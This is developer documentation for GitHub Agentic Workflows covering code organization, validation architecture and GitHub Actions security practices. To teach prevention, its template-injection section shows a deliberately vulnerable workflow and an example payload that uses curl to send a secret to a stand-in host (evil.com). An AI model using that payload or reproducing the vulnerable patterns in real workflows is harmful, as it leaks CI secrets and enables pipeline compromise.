# Developer Instructions

This document consolidates technical specifications and development guidelines for GitHub Agentic Workflows (gh-aw). It provides comprehensive guidance on code organization, validation architecture, security practices, and implementation patterns.

## Table of Contents

- [Capitalization Guidelines](#capitalization-guidelines)
- [Code Organization](#code-organization)
- [Validation Architecture](#validation-architecture)
- [Security Best Practices](#security-best-practices)
- [Safe Output Messages](#safe-output-messages)
- [Schema Validation](#schema-validation)
- [YAML Compatibility](#yaml-compatibility)
- [MCP Logs Guardrail](#mcp-logs-guardrail)
- [Release Management](#release-management)
- [Firewall Log Parsing](#firewall-log-parsing)
- [Breaking CLI Rules](#breaking-cli-rules)
- [Go Module Summaries](#go-module-summaries)


## Capitalization Guidelines

The gh-aw CLI follows context-based capitalization to distinguish between the product name and generic workflow references.

### Capitalization Rules

| Context | Format | Example |
|---------|--------|---------|
| Product name | **Capitalized** | "GitHub Agentic Workflows CLI from GitHub Next" |
| Generic workflows | **Lowercase** | "Enable agentic workflows" |
| Technical terms | **Capitalized** | "Compile Markdown workflows to GitHub Actions YAML" |

This convention distinguishes between the product name (GitHub Agentic Workflows) and the concept (agentic workflows), following industry standards similar to "GitHub Actions" vs. "actions".

### Implementation

The capitalization rules are enforced through automated tests in `cmd/gh-aw/capitalization_test.go` that run as part of the standard test suite.


## Code Organization

### File Organization Principles

The codebase follows clear patterns for organizing code by functionality rather than type. This section provides guidance on maintaining code quality and structure.

#### Prefer Many Small Files Over Large Ones

Organize code into focused files of 100-500 lines rather than creating large monolithic files.

**Example:**
```
create_issue.go (160 lines)
create_pull_request.go (238 lines)
create_discussion.go (118 lines)
```

#### Group by Functionality, Not by Type

**Recommended approach:**
```
create_issue.go            # Issue creation logic
create_issue_test.go       # Issue creation tests
add_comment.go             # Comment addition logic
add_comment_test.go        # Comment tests
```

**Avoid:**
```
models.go                  # All structs
logic.go                   # All business logic
tests.go                   # All tests
```

### Excellent Patterns to Follow

#### Create Functions Pattern

One file per GitHub entity creation operation:
- `create_issue.go` - GitHub issue creation logic
- `create_pull_request.go` - Pull request creation logic
- `create_discussion.go` - Discussion creation logic
- `create_code_scanning_alert.go` - Code scanning alert creation

Benefits:
- Clear separation of concerns
- Easy to locate specific functionality
- Prevents files from becoming too large
- Facilitates parallel development

#### Engine Separation Pattern

Each AI engine has its own file with shared helpers in `engine_helpers.go`:
- `copilot_engine.go` - GitHub Copilot engine
- `claude_engine.go` - Claude engine
- `codex_engine.go` - Codex engine
- `custom_engine.go` - Custom engine support
- `engine_helpers.go` - Shared engine utilities

#### Test Organization Pattern

Tests live alongside implementation files:
- Feature tests: `feature.go` + `feature_test.go`
- Integration tests: `feature_integration_test.go`
- Specific scenario tests: `feature_scenario_test.go`

### File Size Guidelines

| Category | Lines | Use Case | Example |
|----------|-------|----------|---------|
| Small files | 50-200 | Utilities, simple features | `args.go` (65 lines) |
| Medium files | 200-500 | Most feature implementations | `create_issue.go` (160 lines) |
| Large files | 500-800 | Complex features | `permissions.go` (905 lines) |
| Very large files | 800+ | Core infrastructure only | `compiler.go` (1596 lines) |

### Decision Tree: Creating New Files



### Decision Tree: Splitting Files



### Case Study: Refactoring Large Files

The refactoring of `pkg/parser/frontmatter.go` demonstrates applying file organization principles to a large monolithic file.

#### Initial State
- **Original file**: 1,907 lines (monolithic structure)
- **Problem**: Difficult to navigate, understand, and maintain
- **Goal**: Split into focused, maintainable modules

#### Refactoring Approach



#### Results

| Metric | Before | After | Change |
|--------|--------|-------|--------|
| Main file size | 1,907 LOC | 1,166 LOC | -741 LOC (-39%) |
| Number of files | 1 | 5 | +4 files |
| Average file size | 1,907 LOC | 233 LOC | -88% |
| Test pass rate | 100% | 100% | No change ✓ |
| Breaking changes | N/A | 0 | None ✓ |

#### Modules Extracted

1. **ansi_strip.go** (108 LOC)
   - ANSI escape sequence stripping utilities
   - Standalone, no dependencies
   - Functions: `StripANSI()`, `isFinalCSIChar()`, `isCSIParameterChar()`

2. **frontmatter_content.go** (284 LOC)
   - Basic frontmatter parsing and extraction
   - Pure functions without side effects
   - Functions: `ExtractFrontmatterFromContent()`, `ExtractFrontmatterString()`, `ExtractMarkdownContent()`, etc.

3. **remote_fetch.go** (258 LOC)
   - GitHub remote content fetching
   - GitHub API interactions and caching
   - Functions: `downloadIncludeFromWorkflowSpec()`, `resolveRefToSHA()`, `downloadFileFromGitHub()`

4. **workflow_update.go** (129 LOC)
   - High-level workflow file updates
   - Frontmatter manipulation and cron expression handling
   - Functions: `UpdateWorkflowFrontmatter()`, `EnsureToolsSection()`, `QuoteCronExpressions()`

#### Key Principles Applied

- **Single Responsibility**: Each module handles one aspect of frontmatter processing
- **Clear Boundaries**: Well-defined interfaces between modules
- **Progressive Refactoring**: Extract standalone utilities first, then higher-level modules
- **No Breaking Changes**: Maintain public API compatibility throughout
- **Test-Driven Safety**: Run tests after each extraction

#### Remaining Work

Three complex modules remain in the original file (requiring future work):
- **tool_sections.go** (~420 LOC): Tool configuration extraction and merging
- **include_expander.go** (~430 LOC): Recursive include resolution with cycle detection
- **frontmatter_imports.go** (~360 LOC): BFS import traversal and processing

These remain due to high interdependency, stateful logic, and complex recursive algorithms.

### Anti-Patterns to Avoid

#### God Files
Single file doing everything - split by responsibility instead. The frontmatter.go refactoring demonstrates how a 1,907-line "god file" can be systematically broken down.

#### Vague Naming
Avoid non-descriptive file names like `utils.go`, `helpers.go`, `misc.go`, `common.go`.

Use specific names like `ansi_strip.go`, `remote_fetch.go`, or `workflow_update.go` that clearly indicate their purpose.

#### Mixed Concerns
Keep files focused on one domain. Don't mix unrelated functionality in one file.

#### Test Pollution
Split tests by scenario rather than having one massive test file.

#### Premature Abstraction
Wait until you have 2-3 use cases before extracting common patterns.

### Helper File Conventions

Helper files contain shared utility functions used across multiple modules. Follow these guidelines when creating or modifying helper files.

#### When to Create Helper Files

Create a helper file when you have:
1. **Shared utilities** used by 3+ files in the same domain
2. **Clear domain focus** (e.g., configuration parsing, MCP rendering, CLI wrapping)
3. **Stable functionality** that won't change frequently

**Examples of Good Helper Files:**
- `github_cli.go` - GitHub CLI wrapping functions (ExecGH, ExecGHWithOutput)
- `config_helpers.go` - Safe output configuration parsing (parseLabelsFromConfig, parseTitlePrefixFromConfig)
- `map_helpers.go` - Generic map/type utilities (parseIntValue, filterMapKeys)
- `mcp_renderer.go` - MCP configuration rendering (RenderGitHubMCPDockerConfig, RenderJSONMCPConfig)

#### Naming Conventions

Helper file names should be **specific and descriptive**, not generic:

**Good Names:**
- `github_cli.go` - Indicates GitHub CLI helpers
- `mcp_renderer.go` - Indicates MCP rendering helpers
- `config_helpers.go` - Indicates configuration parsing helpers

**Avoid:**
- `helpers.go` - Too generic
- `utils.go` - Too vague
- `misc.go` - Indicates poor organization
- `common.go` - Doesn't specify domain

#### What Belongs in Helper Files

**Include:**
- Small (< 50 lines) utility functions used by multiple files
- Domain-specific parsing/validation functions
- Wrapper functions that simplify common operations
- Type conversion utilities

**Exclude:**
- Complex business logic (belongs in domain-specific files)
- Functions used by only 1-2 callers (co-locate with callers)
- Large functions (> 100 lines) - consider dedicated files
- Multiple unrelated domains in one file

#### Helper File Organization

**Current Helper Files in pkg/workflow:**

| File | Purpose | Functions | Usage |
|------|---------|-----------|-------|
| `github_cli.go` | GitHub CLI wrapper | 2 functions | Used by CLI commands and workflow resolution |
| `config_helpers.go` | Safe output config parsing | 5 functions | Used by safe output processors |
| `map_helpers.go` | Generic map/type utilities | 2 functions | Used across workflow compilation |
| `prompt_step_helper.go` | Prompt step generation | 1 function | Used by prompt generators |
| `mcp_renderer.go` | MCP config rendering | Multiple rendering functions | Used by all AI engines |
| `engine_helpers.go` | Shared engine utilities | Agent, npm install helpers | Used by Copilot, Claude, Codex engines |

#### When NOT to Create Helper Files

Avoid creating helper files when:
1. **Single caller** - Co-locate with the caller instead
2. **Tight coupling** - Function is tightly coupled to one module
3. **Frequent changes** - Helper files should be stable
4. **Mixed concerns** - Multiple unrelated utilities (split into focused files)

**Example of co-location preference:**
```go
// Instead of: helpers.go containing formatStepName() used only by compiler.go
// Do: Put formatStepName() directly in compiler.go
```

#### Refactoring Guidelines

When refactoring helper files:
1. **Group by domain** - MCP rendering → mcp_renderer.go, not engine_helpers.go
2. **Keep functions small** - Large helpers (> 100 lines) may need dedicated files
3. **Document usage** - Add comments explaining when to use each helper
4. **Check call sites** - Ensure 3+ callers before keeping in helper file

#### Example: MCP Function Reorganization

The MCP rendering functions were moved from `engine_helpers.go` to `mcp_renderer.go` because:
- **Domain focus**: All functions relate to MCP configuration rendering
- **Multiple callers**: Used by Claude, Copilot, Codex, and Custom engines
- **Cohesive**: Functions work together to render MCP configs
- **Stable**: Rendering patterns don't change frequently

**Before:**
```
engine_helpers.go (478 lines)
  - Agent helpers
  - npm install helpers
  - MCP rendering functions ← Should be in mcp_renderer.go
```

**After:**
```
engine_helpers.go (213 lines)
  - Agent helpers
  - npm install helpers
  
mcp_renderer.go (523 lines)
  - MCP rendering functions
  - MCP configuration types
```

### String Sanitization vs Normalization

The codebase uses two distinct patterns for string processing with different purposes.

#### Sanitize Pattern: Character Validity

**Purpose**: Remove or replace invalid characters to create valid identifiers, file names, or artifact names.

**When to use**: When you need to ensure a string contains only valid characters for a specific context (identifiers, YAML artifact names, filesystem paths).

**What it does**:
- Removes special characters that are invalid in the target context
- Replaces separators (colons, slashes, spaces) with hyphens
- Converts to lowercase for consistency
- May preserve certain characters (dots, underscores) based on configuration

#### Normalize Pattern: Format Standardization

**Purpose**: Standardize format by removing extensions, converting between conventions, or applying consistent formatting rules.

**When to use**: When you need to convert between different representations of the same logical entity (e.g., file extensions, naming conventions).

**What it does**:
- Removes file extensions (.md, .lock.yml)
- Converts between naming conventions (dashes to underscores)
- Standardizes identifiers to a canonical form
- Does NOT validate character validity (assumes input is already valid)

#### Function Reference

**Sanitize Functions**:
- `SanitizeName(name string, opts *SanitizeOptions) string` - Configurable sanitization with custom character preservation
- `SanitizeWorkflowName(name string) string` - Sanitizes workflow names for artifact names and file paths
- `SanitizeIdentifier(name string) string` - Creates clean identifiers for user agent strings

**Normalize Functions**:
- `normalizeWorkflowName(name string) string` - Removes file extensions to get base workflow identifier
- `normalizeSafeOutputIdentifier(identifier string) string` - Converts dashes to underscores for safe output identifiers

#### Decision Tree



#### Best Practices

1. **Choose the right tool**: Use sanitize for character validity, normalize for format standardization.
2. **Don't double-process**: If normalize produces a valid identifier, don't sanitize it again.
3. **Document intent**: When using these functions, add comments explaining which pattern you're using and why.
4. **Validate assumptions**: If you assume input is already valid, document that assumption.
5. **Consider defaults**: Use `SanitizeIdentifier` when you need a fallback default value for empty results.

#### Anti-Patterns

**Don't sanitize already-normalized strings**:
```go
// BAD: Sanitizing a normalized workflow name
normalized := normalizeWorkflowName("weekly-research.md")
sanitized := SanitizeWorkflowName(normalized) // Unnecessary!
```

**Don't normalize for character validity**:
```go
// BAD: Using normalize for invalid characters
userInput := "My Workflow: Test/Build"
normalized := normalizeWorkflowName(userInput) // Wrong tool!
// normalized = "My Workflow: Test/Build" (unchanged - invalid chars remain)
```


## Validation Architecture

The validation system ensures workflow configurations are correct, secure, and compatible with GitHub Actions before compilation.

### Architecture Overview



### Centralized Validation

**Location:** `pkg/workflow/validation.go` (782 lines)

**Purpose:** General-purpose validation that applies across the entire workflow system

**Key Functions:**
- `validateExpressionSizes()` - Ensures GitHub Actions expression size limits
- `validateContainerImages()` - Verifies Docker images exist and are accessible
- `validateRuntimePackages()` - Validates runtime package dependencies
- `validateGitHubActionsSchema()` - Validates against GitHub Actions YAML schema
- `validateNoDuplicateCacheIDs()` - Ensures unique cache identifiers
- `validateSecretReferences()` - Validates secret reference syntax
- `validateRepositoryFeatures()` - Checks repository capabilities
- `validateHTTPTransportSupport()` - Validates HTTP transport configuration
- `validateWorkflowRunBranches()` - Validates workflow run branch configuration

**When to add validation here:**
- Cross-cutting concerns that span multiple domains
- Core workflow integrity checks
- GitHub Actions compatibility validation
- General schema and configuration validation
- Repository-level feature detection

### Domain-Specific Validation

Domain-specific validation is organized into separate files:

#### Strict Mode Validation

**Files:** `pkg/workflow/strict_mode.go`, `pkg/workflow/validation_strict_mode.go`

Enforces security and safety constraints in strict mode:
- `validateStrictPermissions()` - Refuses write permissions
- `validateStrictNetwork()` - Requires explicit network configuration
- `validateStrictMCPNetwork()` - Requires network config on custom MCP servers
- `validateStrictBashTools()` - Refuses bash wildcard tools

#### Python Package Validation

**File:** `pkg/workflow/pip.go`

Validates Python package availability on PyPI:
- `validatePipPackages()` - Validates pip packages
- `validateUvPackages()` - Validates uv packages

#### NPM Package Validation

**File:** `pkg/workflow/npm.go`

Validates NPX package availability on npm registry.

#### Expression Safety

**File:** `pkg/workflow/expression_safety.go`

Validates GitHub Actions expression security with allowlist-based validation.

### Validation Decision Tree



### Validation Patterns

#### Allowlist Validation

Used for security-sensitive validation with limited set of valid options:

```go
func validateExpressionSafety(content string) error {
    matches := expressionRegex.FindAllStringSubmatch(content, -1)
    var unauthorizedExpressions []string

    for _, match := range matches {
        expression := strings.TrimSpace(match[1])
        if !isAllowed(expression) {
            unauthorizedExpressions = append(unauthorizedExpressions, expression)
        }
    }

    if len(unauthorizedExpressions) > 0 {
        return fmt.Errorf("unauthorized expressions: %v", unauthorizedExpressions)
    }
    return nil
}
```

#### External Resource Validation

Used for validating external dependencies:

```go
func validateDockerImage(image string, verbose bool) error {
    cmd := exec.Command("docker", "inspect", image)
    output, err := cmd.CombinedOutput()

    if err != nil {
        pullCmd := exec.Command("docker", "pull", image)
        if pullErr := pullCmd.Run(); pullErr != nil {
            return fmt.Errorf("docker image not found: %s", image)
        }
    }
    return nil
}
```

#### Schema Validation

Used for configuration file validation:

```go
func (c *Compiler) validateGitHubActionsSchema(yamlContent string) error {
    schema := loadGitHubActionsSchema()

    var data interface{}
    if err := yaml.Unmarshal([]byte(yamlContent), &data); err != nil {
        return err
    }

    if err := schema.Validate(data); err != nil {
        return fmt.Errorf("schema validation failed: %w", err)
    }
    return nil
}
```

#### Progressive Validation

Used for applying multiple validation checks in sequence:

```go
func (c *Compiler) validateStrictMode(frontmatter map[string]any, networkPermissions *NetworkPermissions) error {
    if !c.strictMode {
        return nil
    }

    if err := c.validateStrictPermissions(frontmatter); err != nil {
        return err
    }

    if err := c.validateStrictNetwork(networkPermissions); err != nil {
        return err
    }

    return nil
}
```


## Security Best Practices

This section outlines security best practices for GitHub Actions workflows based on static analysis tools (actionlint, zizmor, poutine) and security research.

### Template Injection Prevention

Template injection occurs when untrusted input is used directly in GitHub Actions expressions, allowing attackers to execute arbitrary code or access secrets.

#### Understanding the Risk

GitHub Actions expressions (`${{ }}`) are evaluated before workflow execution. If untrusted data (issue titles, PR bodies, comments) flows into these expressions, attackers can inject malicious code.

#### Insecure Pattern

```yaml
# VULNERABLE: Direct use of untrusted input
name: Process Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Echo issue title
        run: echo "${{ github.event.issue.title }}"
```

**Why vulnerable:** Issue title is directly interpolated. An attacker can inject: `"; curl evil.com/?secret=$SECRET; echo "`

#### Secure Pattern: Environment Variables

```yaml
# SECURE: Use environment variables
name: Process Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Echo issue title
        env:
          ISSUE_TITLE: ${{ github.event.issue.title }}
        run: echo "$ISSUE_TITLE"
```

**Why secure:** Expression is evaluated in controlled context (environment variable assignment). Shell receives value as data, not executable code.

#### Data Flow Comparison



#### Recent Fixes (November 2025)

Template injection vulnerabilities were identified and fixed in:
- `copilot-session-insights.md` - Step output passed through environment variable
- Pattern: Move template expressions from bash scripts to environment variable assignments

See `scratchpad/template-injection-prevention.md` for detailed analysis and fix documentation.

#### Secure Pattern: Sanitized Context (gh-aw specific)

```yaml
# SECURE: Use sanitized context output
Analyze this content: "${{ needs.activation.outputs.text }}"
```

The `needs.activation.outputs.text` output is automatically sanitized:
- @mentions neutralized
- Bot triggers protected
- XML tags converted to safe format
- Only HTTPS URIs from trusted domains
- Content limits enforced (0.5MB, 65k lines)
- Control characters removed

#### Safe Context Variables

**Always safe to use in expressions:**
- `github.actor`
- `github.repository`
- `github.run_id`
- `github.run_number`
- `github.sha`

**Never safe in expressions without environment variable indirection:**
- `github.event.issue.title`
- `github.event.issue.body`
- `github.event.comment.body`
- `github.event.pull_request.title`
- `github.event.pull_request.body`
- `github.head_ref` (can be controlled by PR authors)

### Shell Script Best Practices

#### SC2086: Double Quote to Prevent Globbing and Word Splitting

**Insecure:**
```yaml
steps:
  - name: Process files
    run: |
      FILES=$(ls *.txt)
      for file in $FILES; do
        echo $file
      done
```

**Why vulnerable:** Variables can be split on whitespace, glob patterns are expanded, potential command injection.

**Secure:**
```yaml
steps:
  - name: Process files
    run: |
      while IFS= read -r file; do
        echo "$file"
      done < <(find . -name "*.txt")
```

#### Shell Script Security Checklist

- Always quote variable expansions: `"$VAR"`
- Use `[[ ]]` instead of `[ ]` for conditionals
- Use `$()` instead of backticks for command substitution
- Enable strict mode: `set -euo pipefail`
- Validate and sanitize all inputs
- Use shellcheck to catch common issues

**Example secure script:**
```yaml
steps:
  - name: Secure script
    env:
      INPUT_VALUE: ${{ github.event.inputs.value }}
    run: |
      set -euo pipefail

      if [[ ! "$INPUT_VALUE" =~ ^[a-zA-Z0-9_-]+$ ]]; then
        echo "Invalid input format"
        exit 1
      fi

      echo "Processing: $INPUT_VALUE"

      result=$(grep -r "$INPUT_VALUE" . || true)
      echo "$result"
```

### Supply Chain Security

Supply chain attacks target dependencies in CI/CD pipelines.

#### Pin Action Versions with SHA

**Insecure:**
```yaml
steps:
  - uses: actions/checkout@v5           # Tag can be moved
  - uses: actions/setup-node@main       # Branch can be updated
```

**Why vulnerable:** Tags can be deleted and recreated, branches can be force-pushed, repository ownership can change.

**Secure:**
```yaml
steps:
  - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
  - uses: actions/setup-node@60edb5dd545a775178f52524783378180af0d1f8 # v4.0.2
```

**Why secure:** SHA commits are immutable. Comments indicate human-readable version for updates.

#### Finding SHA for Actions

```bash
# Get SHA for a specific tag
git ls-remote https://github.com/actions/checkout v4.1.1

# Or use GitHub API
curl -s https://api.github.com/repos/actions/checkout/git/refs/tags/v4.1.1
```

### Workflow Structure and Permissions

#### Minimal Permissions Principle

**Insecure:**
```yaml
name: CI
on: [push]

permissions: write-all
```

**Secure:**
```yaml
name: CI
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test
```

#### Job-Level Permissions

```yaml
name: CI/CD
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test

  deploy:
    needs: test
    runs-on: ubuntu-latest
    permissions:
      contents: read
      deployments: write
    steps:
      - uses: actions/checkout@sha
      - run: npm run deploy
```

#### Available Permissions

| Permission | Read | Write | Use Case |
|------------|------|-------|----------|
| contents | Read code | Push code | Repository access |
| issues | Read issues | Create/edit issues | Issue management |
| pull-requests | Read PRs | Create/edit PRs | PR management |
